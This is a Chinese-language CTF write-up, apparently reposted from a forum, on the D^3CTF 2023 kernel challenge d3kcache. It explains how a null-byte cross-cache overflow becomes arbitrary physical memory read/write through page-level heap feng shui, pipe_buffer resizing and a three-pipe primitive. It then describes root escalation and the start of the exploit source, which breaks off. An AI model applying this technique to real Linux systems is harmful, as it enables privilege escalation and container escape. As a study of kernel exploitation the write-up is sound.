# [系统底层] [D^3CTF2023]d3kcache 从 null-byte cross-cache overflow 到任意物理内存读写

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1784403
- 抓取时间: 2026-11-01T21:56:33

## 0x00.一切开始之前

在实战中对 Linux kernel 的内存损坏漏洞进行利用往往需要面临诸多挑战，来自硬件与软件层面的诸多保护使得漏洞利用变得困难，内核镜像信息的缺失也令合法攻击载荷的构造变得不可能；现有的一些工作也在尝试寻找无需进行控制流劫持的更具有通用性的攻击手法，如 Pipe Primitive 选择将漏洞形式转换为 DirtyPipe 完成利用，DirtyCred 则将漏洞转换为对内核中的 `credentials` 结构体的改写以完成利用；但这些利用手法往往仍需要一定级别的权限（例如，至少需要能够读取或执行特权文件），仍然缺乏足够的通用性

本文我们借助 D^3CTF 2023 的一道 kernel pwn 题目 [//github.com/arttnba3/D3CTF2023_d3kcache](https://github.com/arttnba3/D3CTF2023_d3kcache) 介绍一种更具有通用性的组合利用手法，其允许我们将绝大多数的内核中的内存损坏漏洞（甚至仅是一个 `'\0'` 字节的堆溢出），转换为无需任何特权的无限的对物理内存的任意读写能力，并能完美绕过包括 KASLR、SMEP、SMAP 在内的多项主流缓解措施

通过这项技术，一个恶意的本地攻击者可以在无需内核镜像信息的情况下通过已知的内核内存损坏类漏洞完成提权与容器逃逸

## 0x01.题目分析

题目逆向起来应该还是比较简单的，在模块初始化函数中创建了一个独立的 `kmem_cache`，对象大小为 2048：

```
#define KCACHE_SIZE 2048

static int d3kcache_module_init(void)
{
    //...

    kcache_jar = kmem_cache_create_usercopy("kcache_jar", KCACHE_SIZE, 0, 
                         SLAB_HWCACHE_ALIGN | SLAB_PANIC | SLAB_ACCOUNT, 
                         0, KCACHE_SIZE, NULL);

    memset(kcache_list, 0, sizeof(kcache_list));

    return 0;
}
```

自定义的 `ioctl` 函数提供了分配、追加编辑、释放、读取的一个堆菜单，漏洞便出在追加编辑当中，当写满 2048 字节时存在着一个 `\0` 字节的溢出：

```
long d3kcache_ioctl(struct file *__file, unsigned int cmd, unsigned long param)

{

    //...

    switch (cmd) {

        //...

        case KCACHE_APPEND:

            if (usr_cmd.idx = KCACHE_NUM 

                || !kcache_list[usr_cmd.idx].buf) {

                printk(KERN_ALERT "[d3kcache:] Invalid index to write.");

                break;

            }

            if (usr_cmd.sz > KCACHE_SIZE || 

                (usr_cmd.sz + kcache_list[usr_cmd.idx].size) >= KCACHE_SIZE) {

                size = KCACHE_SIZE - kcache_list[usr_cmd.idx].size;

            } else {

                size = usr_cmd.sz;

            }

            kcache_buf = kcache_list[usr_cmd.idx].buf;

            kcache_buf += kcache_list[usr_cmd.idx].size;

            if (copy_from_user(kcache_buf, usr_cmd.buf, size)) {

                break;

            }

            kcache_buf[size] = '\0'; /* 漏洞点 */

            retval = 0;

            break;

            //...
```

同时查看题目所提供的内核编译文件，可以发现开启了 Control Flow Integrity 保护：

```
CONFIG_CFI_CLANG=y
```

其他的各种常规保护（KPTI、KASLR、Hardened Usercopy、...）基本上都是开启的，这里就不阐述了

当然，做内核漏洞利用自然要默认这些保护都开了：）

## 0x02.漏洞利用

由于题目所在的 `kmem_cache` 为一个独立的 `kmem_cache`，因此我们只能考虑 cross-cache overflow：溢出到其他结构体所在页面上完成利用

毕竟你总不能指望在 `freelist` 相关保护都开启的情况下 `free object` 的 `next` 指针刚好在前 8 字节然后覆写又刚好能把 `freelist` 劫持到有效可控地址上：）

### Step.I - 页级堆风水构造稳定跨页溢出布局

为了保证溢出的稳定性，这里笔者使用页级堆风水的方法来构造预溢出布局

#### 基本原理

页级堆风水是一种其实不算新但是其实还是稍微有点新的利用手法，顾名思义，页级堆风水即以内存页为粒度的内存排布方式，而内核内存页的排布对我们来说不仅未知且信息量巨大，因此这种利用手法实际上是让我们手工构造一个新的已知的页级粒度内存页排布

首先让我们重新审视 slub allocator 向 buddy system 请求页面的过程，当 `freelist` page 已经耗空且 `partial` 链表也为空时（或者 `kmem_cache` 刚刚创建后进行第一次分配时），其会向 buddy system 申请页面：



接下来让我们重新审视 buddy system ，其基本原理就是以 2 的 `order` 次幂张内存页作为分配粒度，相同 `order` 间空闲页面构成双向链表，当低阶 `order` 的页面不够用时便会从高阶 `order` 取一份连续内存页拆成两半，其中一半挂回当前请求 `order` 链表，另一半返还给上层调用者；下图为以 `order` 2 为例的 buddy system 页面分配基本原理：



我们不难想到的是：从更高阶 `order` 拆分成的两份低阶 `order` 的连续内存页是物理连续的，由此我们可以：

- 向 buddy system 请求两份连续的内存页
- 释放其中一份内存页，在 vulnerable `kmem_cache` 上堆喷，让其取走这份内存页
- 释放另一份内存页，在 victim `kmem_cache` 上堆喷，让其取走这份内存页

此时我们便有可能溢出到其他的内核结构体上，从而完成 cross-cache overflow

#### 具体利用

在内核当中有着很多的可以直接向 buddy system 请求页面的 API，这里笔者选用一个来自于 [//googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html) 的方案：

当我们创建一个 protocol 为 `PF_PACKET` 的 socket 之后，先调用 `setsockopt()` 将 `PACKET_VERSION` 设为 `TPACKET_V1`/`TPACKET_V2`，再调用 `setsockopt()` 提交一个 `PACKET_TX_RING`，此时便存在如下调用链：

```
__sys_setsockopt()
    sock->ops->setsockopt()
        packet_setsockopt() // case PACKET_TX_RING ↓
            packet_set_ring()
                alloc_pg_vec()
```

在 `alloc_pg_vec()` 中会创建一个 `pgv` 结构体，用以分配 `tp_block_nr` 份 2order 张内存页，其中 `order` 由 `tp_block_size` 决定：

```
static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)
{
    unsigned int block_nr = req->tp_block_nr;
    struct pgv *pg_vec;
    int i;

    pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);
    if (unlikely(!pg_vec))
        goto out;

    for (i = 0; i 
```

在 `alloc_one_pg_vec_page()` 中会直接调用 `__get_free_pages()` 向 buddy system 请求内存页，因此我们可以利用该函数进行大量的页面请求：

```
static char *alloc_one_pg_vec_page(unsigned long order)

{

    char *buffer;

    gfp_t gfp_flags = GFP_KERNEL | __GFP_COMP |

              __GFP_ZERO | __GFP_NOWARN | __GFP_NORETRY;

    buffer = (char *) __get_free_pages(gfp_flags, order);

    if (buffer)

        return buffer;

    //...

}
```

相应地，`pgv` 中的页面也会在 socket 被关闭后释放：

```
packet_release()
    packet_set_ring()
        free_pg_vec()
```

`setsockopt()` 也可以帮助我们完成页级堆风水，当我们耗尽 buddy system 中的 low `order` pages 后，我们再请求的页面便都是物理连续的，因此此时我们再进行 `setsockopt()` 便相当于获取到了一块近乎物理连续的内存（为什么是”近乎连续“是因为大量的 `setsockopt()` 流程中同样会分配大量我们不需要的结构体，从而消耗 buddy system 的部分页面）

由此，我们可以获得对一块连续内存的页级掌控，从而可以这样构造出如下图所示堆布局：

- 先释放一部分页面，让 victim object 取得这些页面
- 释放一份页面，向题目模块请求分配对象，从而获得该份页面
- 再释放一部分页面，让 victim object 取得这些页面

这样题目所在的页面便会被夹在 victim 对象的页面中间，使得溢出的稳定性大幅增加



### Step.II - `fcntl(F_SETPIPE_SZ)` 更改 `pipe_buffer` 所在 slub 大小，跨页溢出构造页级 UAF

接下来我们考虑溢出的目标对象，相信大家最先想到的应该是万能结构体 `msg_msg`，但是在笔者看来这个结构体仍旧不够强大，而且在过去的各种漏洞利用当中我们未免也太依赖于 `msg_msg` 了，所以笔者想要探索一些新的方法：）

由于仅有一个字节的溢出，毫无疑问的是我们需要寻找一些在结构体头部便有指向其他内核对象的指针的内核对象，我们不难想到的是 `pipe_buffer` 是一个非常好的的利用对象，其开头有着指向 `page` 结构体的指针，而 `page` 的大小仅为 0x40，可以被 0x100 整除，若我们能够通过 partial overwrite 使得两个管道指向同一张页面，并释放掉其中一个，我们便构造出了页级的 UAF：







同时管道的特性还能让我们在 UAF 页面上任意读写，这真是再美妙不过了：）

但是有一个小问题，`pipe_buffer` 来自于 `kmalloc-cg-1k`，其会请求 order-2 的页面，而题目模块的对象大小为 2k，其会请求 order-3 的页面，如果我们直接进行不同 `order` 间的堆风水的话，则利用成功率会大打折扣 :（

但 `pipe` 可以被挖掘的潜力远比我们想象中大得多：）现在让我们重新审视 `pipe_buffer` 的分配过程，其实际上是单次分配 `pipe_bufs` 个 `pipe_buffer` 结构体：

```
struct pipe_inode_info *alloc_pipe_info(void)

{

    //...

    pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),

                 GFP_KERNEL_ACCOUNT);
```

这里注意到 `pipe_buffer` 不是一个常量而是一个变量，那么我们能否有方法修改 `pipe_buffer` 的数量？答案是肯定的，`pipe` 系统调用非常贴心地为我们提供了 `F_SETPIPE_SZ` 让我们可以重新分配 `pipe_buffer` 并指定其数量：


```
long pipe_fcntl(struct file *file, unsigned int cmd, unsigned long arg)
{
    struct pipe_inode_info *pipe;
    long ret;

    pipe = get_pipe_info(file, false);
    if (!pipe)
        return -EBADF;

    __pipe_lock(pipe);

    switch (cmd) {
    case F_SETPIPE_SZ:
        ret = pipe_set_size(pipe, arg);
//...

static long pipe_set_size(struct pipe_inode_info *pipe, unsigned long arg)
{
    //...

    ret = pipe_resize_ring(pipe, nr_slots);

//...

int pipe_resize_ring(struct pipe_inode_info *pipe, unsigned int nr_slots)
{
    struct pipe_buffer *bufs;
    unsigned int head, tail, mask, n;

    bufs = kcalloc(nr_slots, sizeof(*bufs),
               GFP_KERNEL_ACCOUNT | __GFP_NOWARN);
```

那么我们不难想到的是我们可以通过 `fcntl()` 重新分配单个 `pipe` 的 `pipe_buffer` 数量：

- 对于每个 `pipe` 我们指定分配 64 个 `pipe_buffer`，从而使其向 `kmalloc-cg-2k` 请求对象，而这将最终向 buddy system 请求 `order-3` 的页面

由此，我们便成功使得 `pipe_buffer` 与题目模块的对象处在同一 `order` 的内存页上，从而提高 cross-cache overflow 的成功率

不过需要注意的是，由于 `page` 结构体的大小为 `0x40`，其可以被 `0x100` 整除，因此若我们所溢出的目标 `page` 的地址最后一个字节刚好为 `\x00`，那就等效于没有溢出，因此实际上利用成功率仅为 75% （悲）

### Step.III - 构造二级自写管道，实现任意内存读写

有了 page-level UAF，我们接下来考虑向这张页面分配什么结构体作为下一阶段的 victim object

由于管道本身便提供给我们读写的功能，而我们又能够调整 `pipe_buffer` 的大小并重新分配结构体，那么再次选择 `pipe_buffer` 作为 victim object 便是再自然不过的事情：）



接下来我们可以通过 UAF 管道读取 `pipe_buffer` 内容，从而泄露出 `page`、`pipe_buf_operations` 等有用的数据（可以在重分配前预先向管道中写入一定长度的内容，从而实现数据读取），由于我们可以通过 UAF 管道直接改写 `pipe_buffer`，因此将漏洞转化为 dirty pipe 或许会是一个不错的办法（这也是本次比赛中 NU1L 战队的解法）

但是 `pipe` 的强大之处远不止这些，由于我们可以对 UAF 页面上的 `pipe_buffer` 进行读写，我们可以继续构造出第二级的 page-level UAF：



为什么要这么做呢？在第一次 UAF 时我们获取到了 `page` 结构体的地址，而 `page` 结构体的大小固定为 `0x40`，且与物理内存页一一对应，试想若是我们可以不断地修改一个 `pipe` 的 `page` 指针，则我们便能完成对整个内存空间的任意读写，因此接下来我们要完成这样的一个利用系统的构造

再次重新分配 `pipe_buffer` 结构体到第二级 page-level UAF 页面上，由于这张物理页面对应的 `page` 结构体的地址对我们而言是已知的，我们可以直接让这张页面上的 `pipe_buffer` 的 `page` 指针指向自身，从而直接完成对自身的修改：



这里我们可以篡改 `pipe_buffer.offset` 与 `pipe_buffer.len` 来移动 `pipe` 的读写起始位置，从而实现无限循环的读写，但是这两个变量会在完成读写操作后重新被赋值，因此这里我们使用三个管道：

- 第一个管道用以进行内存空间中的任意读写，我们通过修改其 `page` 指针完成 ：）

- 第二个管道用以修改第三个管道，使其写入的起始位置指向第一个管道

- 第三个管道用以修改第一个与第二个管道，使得第一个管道的 `pipe` 指针指向指定位置、第二个管道的写入起始位置指向第三个管道

通过这三个管道之间互相循环修改，我们便实现了一个可以在内存空间中进行近乎无限制的任意读写系统 ：）

### Step.IV - 提权

有了内存空间中的任意读写，提权便是非常简便的一件事情了，这里笔者给出三种提权方法：）

#### 方法一、修改当前进程的 `task_struct` 的 `cred` 为 `init_cred`

`init_cred` 为有着 root 权限的 `cred`，我们可以直接将当前进程的 `cred` 修改为该 `cred` 以完成提权，这里iwom可以通过 `prctl(PR_SET_NAME, "arttnba3pwnn");` 修改 `task_struct.comm`，从而方便搜索当前进程的 `task_struct` 在内存空间中的位置：）

不过 `init_cred` 的符号有的时候是不在 `/proc/kallsyms` 中导出的，我们在调试时未必能够获得其地址，因此这里笔者选择通过解析 `task_struct` 的方式向上一直找到 init 进程（所有进程的父进程）的 `task_struct`，从而获得 `init_cred` 的地址：



#### 方法二、内核页表解析获取内核栈物理地址，利用直接映射区覆写内核栈完成 ROP

开启了 CFI 并不代表我们便不能够在内核空间中进行任意代码执行了，作为一名黑客没有什么是不可能的，所因此我们仍然要进行任意代码执行：）（←有点中二的一个人

由于 `page` 结构体数组与物理内存页一一对应的缘故，我们可以很轻易地在物理地址与 `page` 结构体地址间进行转换，而在页表当中存放的是物理地址，我们不难想到的是我们可以通过解析当前进程的页表来获取到内核栈的物理地址，从而获取到内核栈对应的 `page`，之后我们可以直接向内核栈上写 ROP chain 来完成任意代码执行

页表的地址可以通过 `mm_struct` 获取，`mm_struct` 地址可以通过 `task_struct` 获取，内核栈地址同样可以通过 `task_struct` 获取，那么这一切其实是水到渠成的事情：



> 但这种方法有一个缺陷，我们会有一定概率没法直接写到当前进程的内核栈上（也不知道写哪去了），从而导致 ROP 失败，原因不明

> 笔者暂时没有发现整个过程的原理存在缺陷的地方，甚至尝试多次重新解析页表（得到的内核栈地址不变）然后写入数据后仍旧无事发生，也不知道究竟是哪出了问题 ：(

#### 方法三、内核页表解析获取代码段物理地址，改写内核页表建立新映射实现 USMA

既然我们能够进行内存空间中的任意读写，直接改写内核代码段也是一个实现任意代码执行的好办法，但是直接映射区对应的内核代码段区域没有可写入权限，直接写会导致 kernel panic :（

但是改写内核代码段本质上便是向对应的物理页写入数据，而我们又能够读写进程页表，我们直接在用户空间建立一个到内核代码段对应物理内存的映射就能改写内核代码段了：）

方便起见，我们可以先通过 `mmap()` 随便映射一块内存，之后改写 `mmap()` 的虚拟地址在页表中对应的物理地址即可，这种方法本质上其实就是 [https://vul.360.net/archives/391](https://vul.360.net/archives/391)：



### Final Exploitation

最终的完整 `exp` 如下，同时包含笔者所给出的三种提权手段的代码：

```
#define _GNU_SOURCE

#include 

#include 

#include 

#include 

#include 

#include 

#include 

#include 

#include 

#include 

/**

 * I - fundamental functions

 * e.g. CPU-core binder, user-status saver, etc.

 */

size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;

size_t page_offset_base = 0xffff888000000000, vmemmap_base = 0xffffea0000000000;

size_t init_task, init_nsproxy, init_cred;

size_t direct_map_addr_to_page_addr(size_t direct_map_addr)

{

    size_t page_count;

    page_count = ((direct_map_addr & (~0xfff)) - page_offset_base) / 0x1000;

    return vmemmap_base + page_count * 0x40;

}

void err_exit(char *msg)

{

    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);

    sleep(5);

    exit(EXIT_FAILURE);

}

/* root checker and shell poper */

void get_root_shell(void)

{

    if(getuid()) {

        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");

        sleep(5);

        exit(EXIT_FAILURE);

    }

    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");

    puts("\033[34m\033[1m

-  Execve root shell now...\033[0m");

    system("/bin/sh");

    /* to exit the process normally, instead of segmentation fault */

    exit(EXIT_SUCCESS);

}

/* userspace status saver */

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status()

{

    __asm__("mov user_cs, cs;"

            "mov user_ss, ss;"

            "mov user_sp, rsp;"

            "pushf;"

            "pop user_rflags;"

            );

    printf("\033[34m\033[1m

-  Status has been saved.\033[0m\n");

}

/* bind the process to specific core */

void bind_core(int core)

{

    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);

    CPU_SET(core, &cpu_set);

    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m

-  Process binded to core \033[0m%d\n", core);

}

/**

